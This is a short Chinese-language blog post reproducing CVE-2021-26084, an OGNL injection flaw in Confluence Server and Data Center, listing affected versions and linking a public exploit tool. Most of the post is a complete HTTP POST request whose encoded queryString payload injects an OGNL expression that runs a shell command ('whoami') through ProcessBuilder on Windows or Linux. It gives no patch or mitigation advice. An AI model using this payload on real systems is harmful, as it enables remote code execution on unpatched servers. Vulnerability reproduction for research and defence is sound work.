

# [CVE-2021-26084(Confluence) 漏洞复现](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)

 [↓↓↓](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  
  
2021-09-02  
  
[↑↑↑](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)  [漏洞复现](https://ad-calcium.github.io/categories/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)   [漏洞复现](https://ad-calcium.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/) [Confluence](https://ad-calcium.github.io/tags/confluence/) 字数统计: 193字 阅读时长: 1分

## 0x01 漏洞介绍

Confluence Server Webwork OGNL 注入漏洞（CVE-2021-26084），远程攻击者在经过身份验证或在特定环境下未经身份验证的情况下，可构造OGNL表达式进行注入，实现在 Confluence Server或Data Center上执行任意代码。

## 0x02 影响范围

**受影响版本**

-   Confluence < 6.13.23
-   6.14.0 ≤ Confluence < 7.4.11
-   7.5.0 ≤ Confluence < 7.11.6
-   7.12.0 ≤ Confluence < 7.12.5
-   Confluence < 7.13.0

## 0x03 利用工具

```plain
https://github.com/h3v0x/CVE-2021-26084_Confluence
```

## 0x03 漏洞复现

漏洞payload

```plain
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: xxxxxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=4FBEAB3342C1B2F544CB4AA67A7ADA6F
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1072

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022whoami%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```



> -   **本文链接:** [https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/](https://ad-calcium.github.io/2021/09/cve-2021-26084confluence-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/ "CVE-2021-26084(Confluence) 漏洞复现")
> -   **License:** [CC BY 4.0 CN](http://creativecommons.org/licenses/by/4.0/deed.zh)

[↓↓↓](https://github.com/ad-calcium)  
  
  
  
[↑↑↑](https://github.com/ad-calcium)

### [AD钙奶](https://github.com/ad-calcium)

Good Good Study, Day Day Up~

-     [下一篇](https://ad-calcium.github.io/2021/09/smb%E5%A4%96%E5%B8%A6%E6%B3%A8%E5%85%A5/ "SMB外带注入")
-   [上一篇](https://ad-calcium.github.io/2021/09/windows%E6%8A%93%E5%8F%96hash%E6%80%BB%E7%BB%93/ "windows抓取hash总结")  
-   [↓↓↓](#collapseToc "文章目录")  
      
    \[ 文章目录 \]  
      
    [↑↑↑](#collapseToc "文章目录")
    

[](http://service.weibo.com/share/share.php?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&pic=https%3A%2F%2Fad-calcium.github.io%2Favatar.png&appkey=)[](http://connect.qq.com/widget/shareqq/index.html?url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&source=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&desc=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&pics=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](javascript:)[](https://www.facebook.com/sharer/sharer.php?u=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&title=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&description=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&caption={{SUBHEAD}}&link=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&picture=https%3A%2F%2Fad-calcium.github.io%2Favatar.png)[](https://twitter.com/intent/tweet?text=CVE-2021-26084(Confluence)%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%20-%20AD%E9%92%99%E5%A5%B6%E7%9A%84%E5%8D%9A%E5%AE%A2&url=https%3A%2F%2Fad-calcium.github.io%2F2021%2F09%2Fcve-2021-26084confluence-%25E6%25BC%258F%25E6%25B4%259E%25E5%25A4%258D%25E7%258E%25B0%2F&via=https%3A%2F%2Fad-calcium.github.io)
